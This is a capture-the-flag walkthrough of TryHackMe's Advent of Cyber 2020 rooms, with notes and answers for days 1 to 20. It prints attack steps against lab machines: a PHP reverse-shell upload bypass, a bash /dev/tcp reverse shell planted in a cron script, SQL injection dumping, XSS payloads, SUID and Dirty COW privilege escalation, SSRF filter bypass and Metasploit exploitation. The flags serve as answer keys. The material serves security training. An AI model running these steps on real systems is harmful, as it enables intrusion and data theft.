# [Advent Calendar 2020](https://tryhackme.com/room/adventofcyber2)

## [Day1] `Web Exploitation` A Christmas Crisis

Register for an account, and then login.

1. What is the name of the cookie used for authentication?



A: auth

2. In what format is the value of this cookie encoded?

A: hexadecimal

3. Having decoded the cookie, what format is the data stored in?

- Used Cyberchef to convert it from hex:



A: JSON

Figure out how to bypass the authentication.

4. What is the value of Santa's cookie?

- Changed the username to santa and converted to hex


A: 7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a2273616e7461227d

Now that you are the santa user, you can re-activate the assembly line!


5. What is the flag you're given when the line is fully active?



A: THM{MjY0Yzg5NTJmY2Q1NzM1NjBmZWFhYmQy}

## [Day2] `Web Exploitation` The Elf Strikes Back!

- We consider this example of an URL: `https://www.thebestfestivalcompany.xyz/index.php?snack=mincePie`

- It's made up of 7 parts:

	1. First up we have the **protocol** (*https://*). This specifies whether the request should be made using HTTP, or HTTPS. 

	2. Next we have the **subdomain** (*www*). This is traditionally "www" (World Wide Web) to signify that the target is a website. However, subdomains can be basically anything you want; for example, a lot of websites use things like "assets", or "api" to indicate different subdomains with different uses. (e.g. https://api.thebestfestivalcompany.xyz)

	3. The next part of the URL is the **domain** (*thebestfestivalcompany*). Domains *need* to be registered and are used as links between a memorable word or phrase, and an IP address. In other words, they're used to give a name to the server running a website.

	4. Next up we have the **TLD (Top Level Domain)** -- *.xyz*. Top-level domains are used by DNS to determine where to look if they want to find your domain. Previously top-level domains had specific uses (and many still do!), but this is not always the case these days. For example, .co.uk  indicates a company based in the UK, .com indicates a company based in the US.

	5. We then have the **resource** that we're selecting -- in this case that is the homepage of the website: *index.php* (As a side note, all homepages must be called "index" in order to be correctly served by the web server without having to be specified fully, unless this parameter has been changed from the default in the webserver configuration). This is how you can go to https://tryhackme.com without having to specify that you want to receive the home page.

	6. The final two aspects of the URL are the most important for our current topic: they both relate to **GET parameters**. First up we have *?snack=*. Here *?* is used to specify that a *GET parameter is forthcoming*. We then have the **parameter name**: *snack*. This is used to *identify* the parameter to the server. We then have an equals sign *(=),* indicating that the *value* will come next.

	7. Finally, we have the **value of the GET parameter**: *mincePie*.

- If there was more than one parameter, we would separate them with *an ampersand* (&).

	- `?snack=mincePie&drink=hotChocolate`

### File Uploading

- Most common types of filter and its bypass:

    - **File Extension Filtering**: As the name suggests extension filtering checks the file extension of uploaded files. This is often done by specifying a list of allowed extensions, then checking the uploaded file against the list. If the extension is not in the allowlist, the upload is rejected.

    - So, what's the bypass? Well, the answer is that it depends entirely on how the filter is implemented. Many extension filters split a filename at the dot (.) and check what comes after it against the list. This makes it very easy to bypass by uploading a double-barrelled extension (e.g. .jpg.php). The filter splits at the dot(s), then checks what it thinks is the extension against the list. If jpg is an allowed extension then the upload will succeed and our malicious PHP script will be uploaded to the server.

- When implementing an upload system, it's good practice to upload the files to a directory that **can't be accessed remotely**.


1. What string of text needs adding to the URL to get access to the upload page?

- Use GET parameters

A: id=ODIzODI5MTNiYmYw

2. What type of file is accepted by the site?

- From the page source, we can see what extensions are allowed to be uploaded:



A: image	

Bypass the filter and upload a reverse shell.

3. In which directory are the uploaded files stored?

- If you try all the examples of such direcotories from the dossier, you eventually get the answer.

A: /uploads

Activate your reverse shell and catch it in a netcat listener!

4. What is the flag in /var/www/flag.txt?

- Uploaded a revshell.jpeg.php file (you need to select *all files* when the window pops up)



- Click the file and if you have a listener up, it should spawn a shell in your terminal.



A: THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}

## [Day3] `Web Exploitation` Christmas Chaos

- 


Use BurpSuite to brute force the login form.  Use the following lists for the default credentials:
Username 	Password
root 	root
admin 	password
user 	12345

Use the correct credentials to log in to the Santa Sleigh Tracker app. Don't forget to turn off Foxyproxy once BurpSuite has finished the attack!

1. What is the flag?

- Intercepted the requst and sent it to Intruder:



- He already marked my positions and so I only need to add the payloads



- I got only 302s but one of them is different in length. So i choose to use those credentials to log in and indeed they work:



A: THM{885ffab980e049847516f9d8fe99ad1a}

## [Day4] `Web Exploitation` Santa's watching

- Using Gobuster to bruteforce files with different extensions: `gobuster dir -u http://example.com -w wordlist.txt -x php,txt,html`

- **wfuzz** options:



1. Given the URL "http://shibes.xyz/api.php", what would the entire wfuzz command look like to query the "breed" parameter using the wordlist "big.txt" (assume that "big.txt" is in your current directory)

Note: For legal reasons, do not actually run this command as the site in question has not consented to being fuzzed!

A: wfuzz -c -z file,big.txt http://shibes.xyz/api.php?breed=FUZZ

2. Use GoBuster (against the target you deployed -- not the shibes.xyz domain) to find the API directory. What file is there?

- Found the api directory:



- I will run gobuster again but with -x flag. After a while, I found the log file:



A: site-log.php

3. Fuzz the date parameter on the file you found in the API directory. What is the flag displayed in the correct post?

- Used wfuzz and the flag `--hh 0` to filter out the only result that returned some chars:



- Used cURL to get the flag using the payload

A: THM{D4t3_AP1}

## [Day5] `Web Exploitation` Someone stole Santa's gift list!


1. Without using directory brute forcing, what's Santa's secret login panel?

- used the hint:

A: /santapanel

2. How many entries are there in the gift database?

- Used this payload:



- I used sqlmap here with a saved burp request and dumped all the db using this command: `sqlmap -r anotherburp --tamper=space2comment --dbms=sqlite --tables --columns --dump`

- I got all of the info to answer the questions at this point





A: 22

3. What did Paul ask for?

A: github ownership

4. What is the flag?

A: thmfox{All_I_Want_for_Christmas_Is_You}

5. What is admin's password?

A: EhCNSWzzFP6sc7gB


## [Day6] `Web Exploitation` Be careful with what you wish on a Christmas night

- Stored XSS works when a certain malicious JavaScript is submitted and later on stored directly on the website. 
	- For example, comments on a blog post, user nicknames in a chat room, or contact details on a customer order. 

	- In other words, in any content that persistently exists on the website and can be viewed by victims.

- Reflected is another type of XSS that is carried out directly in the HTTP request and requires the attacker to do a bit more work. 

	- An example of this could be malicious javascript in the link or a search field. 

	- The code is not stored on the server directly, meaning that a target user should compromise himself by clicking the link.

- The XSS can be exploited by putting a payload instead of the search query.

- The url starts with `10.10.100.27/reflected?keyword=`. 

	- By adding text onto the keyword, we can perform reflected XSS like `10.10.100.27/reflected?keyword=<script>alert(1)</script>` which results in an alert box with 1 on our screen.

- How to detect XSS?

- Both reflected and stored XSS vulnerabilities can be detected in a similar way: through the use of HTML tags, such as `<h1></h1>`, `<b></b>` or others.
	- The idea is to try out inputting text with those tags and see if that produces any differences. 

	- Any change in text size or color immediately indicates an XSS vulnerability.

- But sometimes, it might be challenging to find them manually, and of course, we cannot forget about the basic human error. 

	- Happily, there's a solution for that! **OWASP ZAP** is an open-source web application security scanner. 

	- It can automatically detect web vulnerabilities.

- Resources:
	
	- [Guide](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) on XSS

1. What vulnerability type was used to exploit the application?

- Tried to enter the string `<script> alert(1) </script>` to 'Enter your wish' form and got the alert. Hence, this is a stored XSS vulnerability.

A: stored cross-site scripting

2. What query string can be abused to craft a reflected XSS?



A: q

Launch the OWASP ZAP Application

3. Run a ZAP (zaproxy) automated scan on the target. How many XSS alerts are in the scan?



A: 2

4. Explore the XSS alerts that ZAP has identified, are you able to make an alert appear on the "Make a wish" website?

- Already did in the first question :)

## [Day7] `Networking` The Grinch Really Did Steal Christmas

### IP Addresses

- When sending a letter, you must provide the address for where the letter should go, and it is best practice to include your address as the return address in case the letter is lost (or you wish to let the recipient know how to reply). 

	- An IP address serves the same purpose but for devices connected to a network! 

- Devices connected to the internet will have two of these addresses - a **public** and a **private** address. 

	- Think of a private address as the name of the recipient at a business i.e. Joe Smith, and the public address being the location of this business i.e. 160 Kemp Road, London.

- A *private IP address* to identify itself amongst other devices (such as smartphones, TV's and other computers) within the network of your house.

- A *public IP address* was given by your Internet Service Provider (**ISP**) that identifies your house on the Internet (the Internet is just many, many networks connected).

### Protocols

- Think of it this way: You use protocols in everyday life! 

	- When talking to someone, you will both use the same set of protocols...otherwise, no one will understand each other. 

- At the very least, all parties wishing to converse will use the same language - this is a protocol! 

- Other protocols may also include the context or topic of the conversation. 

	- If anyone strays from these protocols - they risk not being understood! This is the same for network-connected devices.

### The Three-Way Handshake

-  the method that makes TCP **reliable**

- Any data that is sent is given a random number sequence and is reconstructed using this number sequence and incrementing by 1. 

- Both computers must agree on the same number sequence for data to be sent in the correct order. 

- This order is agreed upon during three steps.



- Because all data is received, just in a different order, it can be reassembled using the agreed sequence numbers that would have been exchanged during the three-way-handshake.

- The **connection is dropped** if the "Client" was to send three packets, but the "Server" only receives two out of three packets, they are disconnected from each other as the data sent is corrupt

	- The data will not be processed by "Server" as the packet that was sent 2nd by the "Client" was never received by the "Server"#2, meaning there was a loss of data along the way.

### Wireshark





### Questions

1. Open "pcap1.pcap" in Wireshark. What is the IP address that initiates an ICMP/ping?



A: 10.11.3.2

2. If we only wanted to see HTTP GET requests in our "pcap1.pcap" file, what filter would we use?

- an example was already covered earlier.

A: http.request.method == GET

3. Now apply this filter to "pcap1.pcap" in Wireshark, what is the name of the article that the IP address "10.10.67.199" visited?



A: reindeer-of-the-week 

Let's begin analysing "pcap2.pcap". Look at the captured FTP traffic; what password was leaked during the login process?

4. There's a lot of irrelevant data here - Using a filter here would be useful!



A: plaintext_password_fiasco

5. Continuing with our analysis of "pcap2.pcap", what is the name of the protocol that is encrypted?

A: ssh

Analyse "pcap3.pcap" and recover Christmas!

6. What is on Elf McSkidy's wishlist that will be used to replace Elf McEager?

- export objects HTML



- tried to open the blog thing but it did not work, so I unzipped the downlaoded file.



- Got the answer.

A: Rubber ducky

## [Day 8] `Networking` What's Under The Christmas Tree? 

#nmap

- tool capable of:

	- Host discovery
    - Vulnerability discovery
    - Service/Application discovery

### TCP Scanning

- **SYN Scan** - `nmap -sS <ip>`

	- it is run with *administrative privileges* and *if a different type of scan is not provided*

	- it does not complete the three-way handshake, unlike the Connect Scan

		- instead, after receiving a SYN/ACK from the remote host, a "RST" packet is sent back by the host, hence never completing the shake.

	- nmap can determine the port status by doing this, judging on the response it gets in the handshake:

		- SYN/ACK - **open**
		- RST - **closed**
		- Multiple attempts - **filtered**

	- less likelihood of being detected by sending less packets.


- **Connect Scan** - `nmap -sT <ip>`

	- administrative privileges are not required

		- as a result of Nmap using the *Berkeley Sockets API* 
	
	- completes the handshake 

			- easier to be logged and thus detected

### Nmap Timing Templates

- change Nmap's *aggressiveness*

	- `-T0` the stealthiest (scans a port every 5 minutes)

	- `-T5` most aggresive and often inaccurate (waits for 0.3 seconds for the device to answer to a handshake)

	- by default, Nmap uses `-T3`

### An Introduction to Nmap's Scripting Engine (NSE)

- used to automate 
	
	- **Exploitation**
	- **Fuzzing**
	- **Bruteforcing**

- example: `nmap --script ftp-proftpd-backdoor -p 21 <ip_address>`

### Additional Scan Types

- 

### Defending against Nmap Scans

- although you can change the port for a certain service (e.g. change SSH's port 22 to 2222), it will still get fingerprinted sooner or later

- Solution: **IDS (Intrusion Detection System)** and **IPS (Intrusion Prevention System)** such as [Snort](https://www.snort.org/) and [Suricata](https://suricata-ids.org/) allows blue-teamers to protect their networks using network monitoring.

### Questions

1. When was Snort created?

A: 1998

2. Using Nmap on MACHINE_IP , what are the port numbers of the three services running?  (Please provide your answer in ascending order/lowest -> highest, separated by a comma)



A: 80,2222,3389

Run a scan and provide the -Pn flag to ignore ICMP being used to determine if the host is up

Experiment with different scan settings such as-A and -sV whilst comparing the outputs given.

3. Use Nmap to determine the name of the Linux distribution that is running, what is reported as the most likely distribution to be running?

- use -O or just -sV to detect the most probable OS



A: Ubuntu

4. Use Nmap's Network Scripting Engine (NSE) to retrieve the "HTTP-TITLE" of the webserver. Based on the value returned, what do we think this website might be used for?

- Used an `-A` scan and got the http-title without using `-script`



- But if we were to do it with a script, we would use `http-title`: 



A: blog

Now use different scripts against the remaining services to discover any further information about them

## [Day 9] `Networking` Anyone can be Santa!

#ftp

- File Transfer Protocol (FTP) is a protocol designed to help the efficient transfer of files between different and even non-compatible systems.

- The File Transfer Protocol (FTP) offers a no-thrills means of file sharing in comparison to alternative
protocols available. Whilst this protocol is unencrypted, it can be accessed through a variety of means; from dedicated software like FileZilla, the command line, or web browsers, FTP Servers have been long used to share files between devices across the Internet due to its compatibility.

- FTP uses two connections when transferring data, as illustrated below:



- The standard for these two connections are the two ports:

    - *Port 20 (Data)*
    - *Port 21 (Commands)*

- before any data can be shared, the client must log in to the FTP Server. 

	- This is to determine the commands that the client has the permission to execute, and the data that can be shared. 

- Some websites use FTP to share files instead of the web server itself.

- Enter FTP's **"Anonymous" mode**...This setting allows a default username to be used with any password by a client. 

	- This user is treated like any other user on the FTP server - including enforcing permissions and privileges to commands and data.

- using the FTP server: `ftp <ip_address>`

	- as a username, we type: `anonymous`

- list of commands: `help`

	- `ls` - list files and directories in the working directory on the FTP server
	- `cd` - change our working directory on the FTP server
	- `get` - download a file from the FTP server to our device
	- `put` - upload a file from our device to the FTP server


### Questions


1. Name the directory on the FTP server that has data accessible by the "anonymous" user

- connect to the ftp server in anonymous mode, run a ls command and then figure out the only directory I am allowed to go into



A: public

2. What script gets executed within this directory?

- another ls command in the public directory gets us the answer



A: backup.sh

3. What movie did Santa have on his Christmas shopping list?

- I downloaded the file using `get` and cat it on my own machine to get the name of the movie



A: The Polar Express

4. Re-upload this script to contain malicious data (just like we did in section 9.6. Output the contents of /root/flag.txt!

- Note that the script that we have uploaded may take a minute to return a connection. If it doesn't after a couple of minutes, double-check that you have set up a Netcat listener on the device that you are working from, and have provided the TryHackMe IP of the device that you are connecting from.

- downloaded the script using `get`, then using nano on my local machine I added the line `bash -i >& /dev/tcp/<local_ip>/<local_port> 0>&1`.

- set up a nc listener `nc -lnvp <local_port>` and waited one minute to get a shell.



A: THM{even_you_can_be_santa}

## [Day 10] `Networking` Don't be sELFish

#samba

- we'll be covering an alternative technology for file-sharing that is most used within *organisation/company networks*. Offering encryption as standard, this technology consists of two protocols:

    - **SMB (Server Message Block)** - Natively supported by Windows and not Linux
    
    - **NFS (Network File System)** - Natively supported by Linux and not Windows

- Protocols such as SMB send "requests" and "responses" when communicating with each other, as illustrated below:



- What makes Samba so popular and useful is that it removes the differences between these two protocols, meaning that the two operating systems can now share resources including files amongst each other. 

- Simply, Samba connects to a `"share"` (think of this as a virtual folder) and is capable of day-to-day activities like deleting, moving or uploading files.

- Samba is flexible in the sense it can be useful for both you and me or businesses with thousands of employees. 

	- For example, employees can access documents from a central computer rather than each employee storing their own copy. 

- As previously mentioned, this technology is encrypted enabling sensitive data like username and passwords used in the authentication process (and the data itself)  to be communicated between client/server securely.

- we are going to use `enum4linux`

- However, a very common and easy to cause vulnerability by administrators is wrong permissions. You may be able to access a share and its data without logging in at all

- Unlike FTP, other IT devices such as network printers can also be shared between client/server.

- begin accessing the Samba server and its shares:

	- `smbclient //REPLACE_INSTANCE_IP_ADDRESS/**sharename**`

-  You will be asked for a password, the easiest password is no password! We can just press "Enter" to test this theory. 

	- If successful, this means that the share requires no authentication and we are now logged in.



- Useful Samba commands:



### Questions

1. Using enum4linux, how many users are there on the Samba server?

`enum4linux -U -d -r <ip>`

- Users: elfmceager, elfmcelferson, elfmcskidy

A: 3

2. Now how many "shares" are there on the Samba server?

`enum4linux -S -r <ip>`



A: 4

3. Use smbclient to try to login to the shares on the Samba server. What share doesn't require a password?

- tried to log in on the santa share and it worked

`smbclient //<ip>/tbfc-santa`



A: tbfc-santa

4. Log in to this share, what directory did ElfMcSkidy leave for Santa?

- an ls command



A: jingle-tunes

## [Day 11] `Networking` The Rogue Gnome

#privesc #suid

- Generally speaking, only Administrators can modify system settings or change the permissions of other users resources like files and folders.

- Users may be further divided into roles such as within a company. 

	- Staff in HR are only able to access HR documents whereas accounting staff are only able to access accounting resources.

- **Privilege escalation** is simply the process of increasing the current privileges we have to permissions above us. 

- A **horizontal privilege escalation** attack involves using the intended permissions of a user to abuse a vulnerability to access another user's resources who has similar permissions to you. 

	- For example, using an account with access to accounting documents to access a HR account to retrieve HR documents. 

	- As the *difference* in the permissions of both the Accounting and HR accounts is the *data they can access*, you aren't moving your privileges upwards.

- A bit more traditional, a **vertical privilege escalation** attack involves exploiting a vulnerability that allows you to perform actions like commands or accessing data acting as a higher privileged account such as an administrator.

- A common issue you will face in offensive pentesting is **instability**.

	- Take for example the Eternalblue exploit which conducts a series of vulnerabilities in how the Windows OS allocates and manages memory. 

		- As the exploit writes to memory in an in-proper way, there is a chance of the computer crashing.

- Executing a rev. shell:



- Executing the `whoami` command allows us to see what the name of the account that we are executing commands as. 

- `echo $0` informs us of our shell - it is currently a `/bin/sh`

- In shells like our current Netcat, we don't have many luxuries such as **tab-completion** and **re-selecting the last command executed** (using the up-arrow), but importantly, we can't use commands that ask for *additional input* i.e. **providing SSH credentials** or using the substitute user command `su`

- Modern Ubuntu installs come with python3 installed, we can spawn another shell and begin to make it interactive:

`python -c 'import pty; pty.spawn("/bin/bash")'`

- [Ways how to make your shell interactive](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys)

- After we have gained access, we can use the `find` command to search for:

	- backups
	- passwords
	- admin
	- config

- finding a private SSH key (named **id_rsa**): `find / -name id_rsa 2> /dev/null`

- As you progress through your pentesting journey, you will begin to pick up a certain workflow for how you approach certain stages of an engagement. 

- Whilst this workflow is truly yours, it will revolve around some fundamental steps in looking for vulnerabilities for privilege escalation.

```
1. Determining the kernel of the machine (kernel exploitation such as Dirtyc0w)

2. Locating other services running or applications installed that may be abusable (SUID & out of date software)

3. Looking for automated scripts like backup scripts (exploiting crontabs)

4. Credentials (user accounts, application config files..)

5. Mis-configured file and directory permissions
```

- Checklists for the enumeration stage of privilege escalation:

	- [g0tmi1k](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation)
    - [payatu](https://payatu.com/guide-linux-privilege-escalation)
    - [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#linux---privilege-escalation)

- Normally, executables and commands (commands are just shortcuts to executables) will execute as the user who is running them (assuming they have the file permissions to do so.) 

- This is why some commands such as *changing a user's password* require sudo in front of them. 

	- The sudo allows you to execute something with the permissions as root (the most privileged user). 

- Users who can use sudo are called "**sudoers**" and are listed in **/etc/sudoers** (we can use this to help identify valuable users to us).

- **SUID** is simply a permission added to an executable that does a similar thing as sudo. 

	- However, instead, allows users to run the executable as whoever owns it

- [GTFOBins](https://gtfobins.github.io/) lists the majority of applications that are capable of interacting with the operating system such as reading/writing files or creating shells.

- search the machine for executables with the SUID permission set: `find / -perm -u=s -type f 2>/dev/null`

- things we are searching for:

	- contents of other user directories (i.e. *bash history*, *ssh keys*, *user.txt*)

	- contents of the "/root" directory (i.e. "/root/flag.txt")

	- "`/etc/passwd`" & "`/etc/shadow`" files for password cracking

- enumeration scripts available to use that automate some of the enumeration processes for us: [LinEnum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)

	- LinEnum enumerates the target machine for us, detailing and collating useful information such as kernel versions, permissions to any executables or files that are outside of the users home directory - and a whole plethora more!

- Transfering a file through `netcat`:



> How to cover our tracks?

- Some log files of interest:

	- **/var/log/auth.log** (Attempted logins for SSH, changes too or logging in as system users)

	- **/var/log/syslog** (System events such as firewall alerts)

	- `"/var/log/<service>`
		- Logs of apache2: `/var/log/apache2/access/log`

### Questions

1. What type of privilege escalation involves using a user account to execute commands as an administrator?

A: vertical

2. What is the name of the file that contains a list of users who are a part of the sudo group?

A: sudoers

Use SSH to log in to the vulnerable machine like so: ssh cmnatic@MACHINE_IP

Input the following password when prompted: aoc2020

Enumerate the machine for executables that have had the SUID permission set. Look at the output and use a mixture of GTFObins and your researching skills to learn how to exploit this binary.

You may find uploading some of the enumeration scripts that were used during today's task to be useful.

Use this executable to launch a system shell as root.

3. What are the contents of the file located at /root/flag.txt?

- used the command `find / -perm -u=s -type file 2>/dev/null` to get the binaries with the SUID bit set.

- found that *bash* is one of them

- ran `/bin/bash -p` to priv esc.



A: thm{2fb10afe933296592}

## [Day 12] `Networking` Ready, set, elf

- Known as information disclosure, these nuggets of information are handed to us by the server through error messages such as in the following screenshot, HTTP headers or even on the website itself.



- An attacker can use knowledgebases such as [Rapid7](http://rapid7.com/), [AttackerKB](https://attackerkb.com/), [MITRE](https://cve.mitre.org/cve/) or [Exploit-DB](http://exploit-db.com/) to look for vulnerabilities associated with the version number of that application.



- **The Common Gateway Interface** or **CGI** for short is a standard means of communicating and processing data between a client such as a web browser to a web server.

- Simply, this technology facilitates interaction with programmes such as Python script files, C++ and Java application, or system commands all within the browser - as if you were executing it on the command line.

- The commonplace for CGI scripts to be stored is within the /cgi-bin/ folder on a webserver.

- Now we understand the application that's running, tools such as Metasploit can be used to confirm suspicions and hopefully leverage them!


### Questions

1. What is the version number of the web server?



A: 9.0.17

2. What CVE can be used to create a Meterpreter entry onto the machine? (Format: CVE-XXXX-XXXX)



A: [CVE-2019-0232](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-0232)

Set your Metasploit settings appropriately and gain a foothold onto the deployed machine.

3. What are the contents of flag1.txt

- ran `msfconsole`

- `search Apache cgi`



- set the RHOSTS as the ip address of the vuln machine URI to /cgi-bin/elfwhacker.bat

- `run`

- `shell`

- `type flag1.txt`

A: thm{whacking_all_the_elves}

Looking for a challenge? Try to find out some of the vulnerabilities present to escalate your privileges!

## [Day 13] `Special by John Hammond` Coal for Christmas


### Questions

1. What old, deprecated protocol and service is running?

- did a stealth scan because the usual one takes some time to run



A: telnet

2. What credential was left for you?

- connected using telnet and got some credentials which I used to log in and get a shell

A: clauschristmas

3. What distribution of Linux and version number is this server running?

- Often to enumerate you want to look at pertinent system information, like the version of the operating system or other release information. 

- You can view some information with commands like this:
	
	- `cat /etc/*release`
	- `uname -a`
	- `cat /etc/issue`

- 

A: ubuntu 12.04

4. Who got here first?

- 

A: Grinch

5. What is the verbatim syntax you can use to compile, taken from the real C source code comments?

- About [DirtyCow](https://dirtycow.ninja/)

A: gcc -pthread dirty.c -o dirty -lcrypt

6. What "new" username was created, with the default operations of the real C source code?

A: firefart

7. What is the MD5 hash output?

- downlaoded the otiginal DirtyC0w from exploitDB, used a python http server to get it on the machine, compiled and ran it. Switched to the newly created user, go to the root directory and then follow Grinch's instructions.



A: 8b16f00dd3b51efadb02c1df7f8427cc

## [Day 14] `Special by TheCyberMentor` Where's Rudolph?

#osint

- tools:
	
	- https://namechk.com/
	, https://whatsmyname.app/ and https://namecheckup.com/ will identify other possible accounts quickly for us. 

	- Tools, such as https://github.com/WebBreacher/WhatsMyName and https://github.com/sherlock-project/sherlock do this as well. 

		- Simply enter a username, hit search, and comb through the results. It's that easy!

- reverse image searching:

	- https://yandex.com/images/ 
	- https://tineye.com/ 
	- https://www.bing.com/visualsearch?FORM=ILPVIS 

- Provides password information:

	- http://scylla.so/		-> free and old data
	- https://dehashed.com/ -> paid and up to date data

### Questions

1. What URL will take me directly to Rudolph's Reddit comment history?

A: https://www.reddit.com/user/IGuidetheClaus2020/comments/

2. According to Rudolph, where was he born?

A: Chicago

3. Rudolph mentions Robert.  Can you use Google to tell me Robert's last name?


A: May

4. On what other social media platform might Rudolph have an account?


A: Twitter

5.What is Rudolph's username on that platform?

- searched on google: `IGuideTheClaus2020 site:twitter.com`

A: IGuideClaus2020

6. What appears to be Rudolph's favorite TV show right now?

- search its twitter

A: Bachelorette

7. Based on Rudolph's post history, he took part in a parade.  Where did the parade take place?

- on  twitter there are two pictures. 

- in the first one we can see `thompson coburn`

- googled it and found that it is in chicago



A: Chigago

8. Okay, you found the city, but where specifically was one of the photos taken?

- failed to get any info if I manually download the images.

- after a while, I found a tweet with a link to a 'higher resolution image' -> https://t.co/jmI66ZuNZI

- I wget it and ran `exiftool` on it



- to get the answer, you may want to upload the image to http://exif.regex.info/exif.cgi

A: 41.891815, -87.624277

9. Did you find a flag too?

A: {FLAG}ALWAYSCHECKTHEEXIFD4T4

10. Has Rudolph been pwned? What password of his appeared in a breach?

- search on scylla with his email from twitter rudolphthered@hotmail.com

A: spygame

11. Based on all the information gathered.  It's likely that Rudolph is in the Windy City and is staying in a hotel on Magnificent Mile.  What are the street numbers of the hotel address?

- we know from his tweets that he stays in Marriott hotel. 



A: 540

## [Day 15] `Scripting` There's a Python in my stocking!

#python

-	[Python Zero to Hero](https://polymath.cloud/python/)
-	[Python Moduluo Operator in Practice](https://realpython.com/python-modulo-operator/)
-	[Automate the Boring Stuff with Python](https://automatetheboringstuff.com/)

### Questions

1. What's the output of True + True?

A: 2

2. What's the database for installing other peoples libraries called?

A: PyPi

3. What is the output of bool("False")?

A: True

4. What library lets us download the HTML of a webpage?

A: Requests

5. What is the output of the program provided in "Code to analyse for Question 5" in today's material?

(This code is located above the Christmas banner and below the links in the main body of this task)

A: [1,2,3,6]

6. What causes the previous task to output that?

A: Pass by reference

## [Day 16] `Scripting` Help! Where is Santa?

#python

### Questions

1. What is the port number for the web server?



A: 80

2. Without using enumerations tools such as Dirbuster, what is the directory for the API?  (without the API key)

- the link `Modulat modern free` contains the answer

A: /api/

3. Where is Santa right now?

- wrote a simple python script

```python
import requests

for i in range (1,100,2):
	site = requests.get("http://10.10.24.177/api/"+str(i))
	if "Error" not in site.text:
		print(site.text)

print ("Ended")
```



A: Winter Wonderland, Hyde Park, London.

4. Find out the correct API key. Remember, this is an odd number between 0-100. After too many attempts, Santa's Sled will block you. 

A: 57

## [Day 17] `Reverse Engineering` ReverseELFneering

#reverseengineering #reverse #radare2

- before an executable file is produced, the source code is first compiled into assembly(**.s** files), after which the assembler converts it into an object program(**.o** files), and operations with a linker finally make it an executable. 

- `r2 -d ./file1`

- `aa` 
	
	- The analysis, in this case, involves extracting function names, flow control information, and much more! r2 instructions are usually based on a single character, so it is easy to get more information about the commands.

- list of the functions run: `afl`

- `pdf @main`, where pdf means print disassembly function.



- The general formula for working through something like this is:

    - set appropriate breakpoints
    - use ds to move through instructions and check the values of register and memory
    - if you make a mistake, you can always reload the program using the `ood` command

- [radare2 cheatsheet](https://scoding.de/uploads/r2_cs.pdf) 

### Questions



1. What is the value of local_ch when its corresponding movl instruction is called (first if multiple)?

A: 1

2. What is the value of eax when the imull instruction is called?

A: 6

3. What is the value of local_4h before eax is set to 0?

A: 6

## [Day 18] The Bits of Christmas

#reverseengineering #reverse #.NET #remmina

- NET framework can be disassembled using tools such as [ILSpy](https://github.com/icsharpcode/ILSpy) or [Dotpeek](https://www.jetbrains.com/decompiler/).


### Questions

1. Open the "TBFC_APP" application in ILspy and begin decompiling the code

2. What is Santa's password?





A: santapassword321

3. Now that you've retrieved this password, try to login...What is the flag?



A: thm{046af}

## [Day 19] `Special by Tib3rius` The Naughty or Nice List

#ssrf

- **Server-Side Request Forgery (SSRF)** is a web app vulnerability that allows attackers to force the web application server to make requests to resources it normally wouldn't. 

- For example, a web app may have the functionality to produce screenshots of other websites when a user supplies a URL. 

- This is perfectly valid functionality, however, URLs can also be made for internal IP addresses (e.g. 192.168.1.1, 10.10.10.10, 127.0.0.1 etc.) as well as internal-only hostnames (e.g. localhost, WIN2019SERV.CORP). 

	- If a web developer is not careful, an attacker could provide the app with these and manage to screenshot internal resources, which often have less protections.
- To counter this, user-provided URLs can be checked before they are requested, to ensure that malicious values are not being used. 

- Note that while the example of SSRF used in this task is effectively a *Remote File Inclusion* (RFI) vulnerability as well, not every SSRF is. 

- Some SSRF vulnerabilities only trigger a DNS lookup, while others may not return any kind of response to the web app, but can still be used to "port scan" internal systems by measuring the time each request takes to complete. 

- In other cases, SSRF may be used as a form of Denial of Service (DoS) since the attacker can continually request that the server download large files simultaneously (taking up memory, disk space, and network bandwidth).


### Questions

- search Santa and got smth which URL encoded would
look like this: `http://list.hohoho:8080/search.php?name=Santa`

- obvs, `.hohoho` is not a valid TLD and this means this is some sort of a back-end machine that the website uses.

	- how it should work: our request is sent to the back-end which returns the result to the front-end and thus tu us.

	- potential SSRF

- Enumerating open ports via SSRF can be performed in this manner, by iterating over common ports and measuring the differences between responses. 

	- Even in cases where error messages aren't returned, it is often possible to detect which ports are open vs closed by measuring the time each request takes to complete.

- if we substitute the website with `127.0.0.1`, we get a message that this is blocked by the security team. 

	- it means the server's name must start with `list.hohoho`

- Since the hostname simply needs to start with "list.hohoho", we can take advantage of DNS subdomains and create our own domain "list.hohoho.evilsite.com" which resolves to 127.0.0.1. 

- In fact, we don't even need to buy a domain or configure the DNS, because multiple domains already exist that let us do this. The one we will be using is **localtest.me**, which resolves every subdomain to 127.0.0.1.

- We can therefore set the hostname in the URL to "list.hohoho.localtest.me", bypass the check, and access local services: 

	- we will use `http://list.hohoho.localtest.me` which we will need to URL encode and then provide to `proxy` in the URL itself.

- McSkidy gave away the password and the username is easily guessable

- now we can log in with the username: Santa and pass: Be good for goodness sake!



- we get redirected here

 

- deleting the naughty list gives us the flag.

1. What is Santa's password?

A: Be good for goodness sake!

2. What is the challenge flag?

A: THM{EVERYONE_GETS_PRESENTS}

## [Day 20] `Blue Teaming` PowershELlF to the rescue 
#powershell

- Official: "PowerShell is a cross-platform task automation and configuration management framework, consisting of a command-line shell and scripting language. Unlike most shells, which accept and return text, PowerShell is built on top of the .NET Common Language Runtime (CLR), and accepts and returns .NET objects. This fundamental change brings entirely new tools and methods for automation."

- PowerShell has grown in popularity in the last few years among defenders and especially attackers. 

- PowerShell commands are known as **cmdlets**.

- To list the contents of the current directory we are in, we can use the `Get-ChildItem` cmdlet. 

- There are various other options we can use with this cmdlet to enhance its capabilities further:

	- `-Path` -> Specifies a path to one or more locations. 

		- Wildcards are accepted.
    
    - `-File / -Directory` -> To get a list of files, use the File parameter. 

    	- To get a list of directories, use the Directory parameter. 

    	- You can use the Recurse parameter with File and/or Directory parameters.
    
    - `-Filter` -> Specifies a filter to qualify the Path parameter.

